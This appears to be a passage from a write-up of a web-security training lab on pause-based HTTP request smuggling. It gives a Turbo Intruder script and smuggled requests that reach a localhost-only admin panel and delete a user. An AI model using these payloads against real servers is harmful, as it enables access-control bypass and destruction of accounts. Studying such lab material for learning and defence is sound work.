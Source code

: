     def queueRequests(target, _):
        engine = RequestEngine(endpoint="https://0a6100130435171a83326e6e00af0010.web-security-academy.net:443",
                            concurrentConnections=1,
                            requestsPerConnection=100,
                            pipeline=False
                            )
        
        # attack request
        attack_request = """POST /resources HTTP/1.1
    Host: 0a6100130435171a83326e6e00af0010.web-security-academy.net
    Content-Type: application/x-www-form-urlencoded
    Connection: keep-alive
    Content-Length: %s

    %s"""
    
        # smuggled request GET
        smuggled_request = """GET /hopefully404/ HTTP/1.1
    Host: 0a6100130435171a83326e6e00af0010.web-security-academy.net

    """
    
        # normal request
        normal_request = """GET / HTTP/1.1
    Host: 0a6100130435171a83326e6e00af0010.web-security-academy.net

    """
        engine.queue(attack_request, [len(smuggled_request), smuggled_request], pauseMarker=['\r\n\r\n'], pauseTime=61000)
        engine.queue(normal_request)
    
    
    def handleResponse(req, _):
        table.add(req)

After 61s, we got a response of `404 Not Found` which indicates the vulnerability. Change the smuggled request path to `/admin/` and restart the attack. Notice the response saying:

    Admin interface only available to local users

Change smuggled request `Host` header to `localhost` and restart the attack. This time we have successfully entered the admin interface and found the delete user endpoint and CSRF token. Change the smuggled request to (remember to add the cookie header found in the response):

    POST /admin/delete/ HTTP/1.1
    Host: localhost
    Cookie: session=siXpBIe68Z28SGbY6xgvPh4Pt0qVHPDl
    Content-Length: 53

    csrf=8xDdtqt7HC1P1Ah75XB4gyX4R7uxQjGF&username=carlos

After 61s, we successfully deleted user Carlos.
